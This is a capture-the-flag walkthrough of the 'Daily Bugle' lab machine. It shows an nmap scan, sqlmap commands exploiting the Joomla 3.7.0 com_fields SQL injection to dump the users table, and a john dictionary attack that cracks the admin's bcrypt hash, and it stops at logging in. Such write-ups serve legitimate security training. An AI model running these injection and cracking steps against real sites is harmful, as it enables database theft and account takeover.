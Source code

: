 ﻿## Daily Bugle 
Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum. 

### Recon
- When visited the web server, looks like a kind of news website and it has one post about "Super Man" (Answer to the first question)  robbed the bank and was published by a "Super User". 

- There is a login section, but credentials are unknown at this time. 
-  Running the `nmap` to find more hidden information: 
-


    $ nmap -sC -sV --script=vuln 10.10.89.194 
    
    PORT     STATE SERVICE VERSION
    22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
    |_clamav-exec: ERROR: Script execution failed (use -d to debug)
    | vulners: 
    |   cpe:/a:openbsd:openssh:7.4: 
    |       CVE-2018-15919  5.0     https://vulners.com/cve/CVE-2018-15919
    |       CVE-2017-15906  5.0     https://vulners.com/cve/CVE-2017-15906
    |_      CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
    80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
    |_clamav-exec: ERROR: Script execution failed (use -d to debug)
    | http-csrf: 
    | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.89.194
    |   Found the following possible CSRF vulnerabilities: 
    |     
    |     Path: http://10.10.89.194:80/
    |     Form id: login-form
    |     Form action: /index.php
    |     
    |     Path: http://10.10.89.194:80/index.php/2-uncategorised/1-spider-man-robs-bank
    |     Form id: login-form
    |     Form action: /index.php
    |     
    |     Path: http://10.10.89.194:80/index.php/component/users/?view=reset&amp;Itemid=101
    |     Form id: user-registration
    |     Form action: /index.php/component/users/?task=reset.request&Itemid=101
    |     
    |     Path: http://10.10.89.194:80/index.php/component/users/?view=reset&amp;Itemid=101
    |     Form id: login-form
    |     Form action: /index.php/component/users/?Itemid=101
    |     
    |     Path: http://10.10.89.194:80/index.php/component/users/?view=remind&amp;Itemid=101
    |     Form id: user-registration
    |     Form action: /index.php/component/users/?task=remind.remind&Itemid=101
    |     
    |     Path: http://10.10.89.194:80/index.php/component/users/?view=remind&amp;Itemid=101
    |     Form id: login-form
    |     Form action: /index.php/component/users/?Itemid=101
    |     
    |     Path: http://10.10.89.194:80/index.php/2-uncategorised
    |     Form id: login-form
    |     Form action: /index.php
    |     
    |     Path: http://10.10.89.194:80/index.php
    |     Form id: login-form
    |_    Form action: /index.php
    | http-dombased-xss: 
    | Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.89.194
    |   Found the following indications of potential DOM based XSS: 
    |     
    |     Source: window.open(this.href,'win2','status=no,toolbar=no,scrollbars=yes,titlebar=no,menubar=no,resizable=yes,width=640,height=480,directories=no,location=no')
    |_    Pages: http://10.10.89.194:80/, http://10.10.89.194:80/index.php/2-uncategorised/1-spider-man-robs-bank, http://10.10.89.194:80/index.php/2-uncategorised, http://10.10.89.194:80/index.php
    | http-enum: 
    |   /administrator/: Possible admin folder
    |   /administrator/index.php: Possible admin folder
    |   /robots.txt: Robots file
    |   /administrator/manifests/files/joomla.xml: Joomla version 3.7.0
    |   /language/en-GB/en-GB.xml: Joomla version 3.7.0
    |   /htaccess.txt: Joomla!
    |   /README.txt: Interesting, a readme.
    |   /bin/: Potentially interesting folder
    |   /cache/: Potentially interesting folder
    |   /icons/: Potentially interesting folder w/ directory listing
    |   /images/: Potentially interesting folder
    |   /includes/: Potentially interesting folder
    |   /libraries/: Potentially interesting folder
    |   /modules/: Potentially interesting folder
    |   /templates/: Potentially interesting folder
    |_  /tmp/: Potentially interesting folder
    |_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
    |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
    |_http-trace: TRACE is enabled
    | http-vuln-cve2017-8917: 
    |   VULNERABLE:
    |   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-8917
    |     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
    |       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
    |       to execute aribitrary SQL commands via unspecified vectors.
    |       
    |     Disclosure date: 2017-05-17
    |     Extra information:
    |       User: root@localhost
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917
    |_      https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
    | vulners: 
    |   cpe:/a:apache:http_server:2.4.6: 
    |       CVE-2017-7679   7.5     https://vulners.com/cve/CVE-2017-7679
    |       CVE-2018-1312   6.8     https://vulners.com/cve/CVE-2018-1312
    |       CVE-2017-15715  6.8     https://vulners.com/cve/CVE-2017-15715
    |       CVE-2014-0226   6.8     https://vulners.com/cve/CVE-2014-0226
    |       CVE-2017-9788   6.4     https://vulners.com/cve/CVE-2017-9788
    |       CVE-2019-0217   6.0     https://vulners.com/cve/CVE-2019-0217
    |       CVE-2020-1927   5.8     https://vulners.com/cve/CVE-2020-1927
    |       CVE-2019-10098  5.8     https://vulners.com/cve/CVE-2019-10098
    |       CVE-2020-1934   5.0     https://vulners.com/cve/CVE-2020-1934
    |       CVE-2019-0220   5.0     https://vulners.com/cve/CVE-2019-0220
    |       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199
    |       CVE-2017-9798   5.0     https://vulners.com/cve/CVE-2017-9798
    |       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710
    |       CVE-2016-8743   5.0     https://vulners.com/cve/CVE-2016-8743
    |       CVE-2016-2161   5.0     https://vulners.com/cve/CVE-2016-2161
    |       CVE-2016-0736   5.0     https://vulners.com/cve/CVE-2016-0736
    |       CVE-2014-3523   5.0     https://vulners.com/cve/CVE-2014-3523
    |       CVE-2014-0231   5.0     https://vulners.com/cve/CVE-2014-0231
    |       CVE-2014-0098   5.0     https://vulners.com/cve/CVE-2014-0098
    |       CVE-2013-6438   5.0     https://vulners.com/cve/CVE-2013-6438
    |       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092
    |       CVE-2016-4975   4.3     https://vulners.com/cve/CVE-2016-4975
    |       CVE-2015-3185   4.3     https://vulners.com/cve/CVE-2015-3185
    |       CVE-2014-8109   4.3     https://vulners.com/cve/CVE-2014-8109
    |       CVE-2014-0118   4.3     https://vulners.com/cve/CVE-2014-0118
    |       CVE-2014-0117   4.3     https://vulners.com/cve/CVE-2014-0117
    |       CVE-2013-4352   4.3     https://vulners.com/cve/CVE-2013-4352
    |       CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283
    |_      CVE-2016-8612   3.3     https://vulners.com/cve/CVE-2016-8612
    3306/tcp open  mysql   MariaDB (unauthorized)
    |_clamav-exec: ERROR: Script execution failed (use -d to debug)
    |_mysql-vuln-cve2012-2122: ERROR: Script execution failed (use -d to debug)


- From above results: 
	- port 22 for SSH
	-  80 for web server and 
	- 3306 for mysql (MariaDB)
	- Also the robots.txt shows there is a Joomla running on this server and with version 3.7.0 
	- The /administrator page contains the Joomla login. 
	- The Joomla 3.7.0 is vulnerable for SQL injection as described in [CVE-2017-8917](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-8917)

### Exploiting the Joomla 

Using the known SQL injection vulnerability and the [exploit](https://www.exploit-db.com/exploits/42033), lets exploit the Joomla. 

    sqlmap -u "http://10.10.89.194/administrator/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] 

    [22:17:15] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0 (MariaDB fork)
    [22:17:15] [INFO] fetching database names
    [22:17:15] [INFO] resumed: 'information_schema'
    [22:17:15] [INFO] resumed: 'joomla'
    [22:17:15] [INFO] resumed: 'mysql'
    [22:17:15] [INFO] resumed: 'performance_schema'
    [22:17:15] [INFO] resumed: 'test'
    available databases [5]:
    [*] information_schema
    [*] joomla
    [*] mysql
    [*] performance_schema
    [*] test
    

The result shows there are five databases and let's try the database "***joomla***". So lets see what tables are there in this database: 

    sqlmap -u "http://10.10.249.249/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla --tables

The above returned a total of 72 tables and there is one interesting table ***'#__users***'; sounds like users details.

    sqlmap -u "http://10.10.249.249/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --random-agent --dbs -p list[fullordering] --threads 10 -D joomla -T "#__users" --dump 
    Database: joomla
    Table: #__users
    [1 entry]
    +------+---------------------+------------+---------+----------+--------------------------------------------------------------+
    | id   | email               | name       | params  | username | password                                                     |
    +------+---------------------+------------+---------+----------+--------------------------------------------------------------+
    | 811  | jonah@tryhackme.com | Super User | <blank> | jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
    +------+---------------------+------------+---------+----------+--------------------------------------------------------------+


The table has the user name **jonah** with hashed password `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`. 

Using the `john`, lets crack the hashed password to get the plain text: 

    $ john jonah_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 1024 for all loaded hashes
    Will run 4 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    0g 0:00:00:11 0.01% (ETA: 2020-07-10 05:35) 0g/s 86.17p/s 86.17c/s 86.17C/s twilight..mariel
    0g 0:00:01:44 0.05% (ETA: 2020-07-10 12:13) 0g/s 78.80p/s 78.80c/s 78.80C/s nutter..teamodios
    0g 0:00:01:45 0.05% (ETA: 2020-07-10 12:15) 0g/s 78.85p/s 78.85c/s 78.85C/s 101289..beckham23
    0g 0:00:01:48 0.05% (ETA: 2020-07-10 12:22) 0g/s 78.57p/s 78.57c/s 78.57C/s 474747..coucou
    0g 0:00:02:47 0.07% (ETA: 2020-07-10 13:23) 0g/s 76.82p/s 76.82c/s 76.82C/s Nathan..robinho
    spiderman123     (?)
    1g 0:00:09:31 DONE (2020-07-07 23:15) 0.001751g/s 82.02p/s 82.02c/s 82.02C/s thelma1..speciala
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

Login to Joomla with the above credentials. 
